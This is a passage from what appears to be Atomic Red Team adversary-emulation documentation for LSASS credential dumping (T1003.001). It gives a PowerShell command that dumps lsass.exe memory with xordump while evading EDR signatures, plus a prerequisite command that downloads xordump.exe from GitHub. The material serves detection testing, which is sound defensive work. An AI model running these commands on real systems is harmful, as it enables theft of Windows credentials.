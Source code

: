 The memory of lsass.exe is often dumped for offline credential theft attacks. This can be achieved by
importing built-in DLLs and calling exported functions. Xordump will re-read the resulting minidump
file and delete it immediately to avoid brittle EDR detections that signature lsass minidump files.

Upon successful execution, you should see the following file created $env:TEMP\lsass-xordump.t1003.001.dmp.

**Supported Platforms:** Windows

**auto_generated_guid:** 86fc3f40-237f-4701-b155-81c01c48d697

#### Inputs:

| Name        | Description                                | Type | Default Value                                           |
| ----------- | ------------------------------------------ | ---- | ------------------------------------------------------- |
| xordump_exe | Path to xordump                            | path | C:&#92;Windows&#92;Temp&#92;xordump.exe                 |
| output_file | Path where resulting dump should be placed | path | C:&#92;Windows&#92;Temp&#92;lsass-xordump.t1003.001.dmp |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
#{xordump_exe} -out #{output_file} -x 0x41
```

#### Cleanup Commands:

```powershell
Remove-Item #{output_file} -ErrorAction Ignore
```

#### Dependencies: Run with `powershell`!

##### Description: Computer must have xordump.exe

##### Check Prereq Commands:

```powershell
if (Test-Path '#{xordump_exe}') {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest "https://github.com/audibleblink/xordump/releases/download/v0.0.1/xordump.exe" -OutFile #{xordump_exe}
```

<br/>
<br/>

## Atomic Test #13 - Dump LSASS.exe using lolbin rdrleakdiag.exe
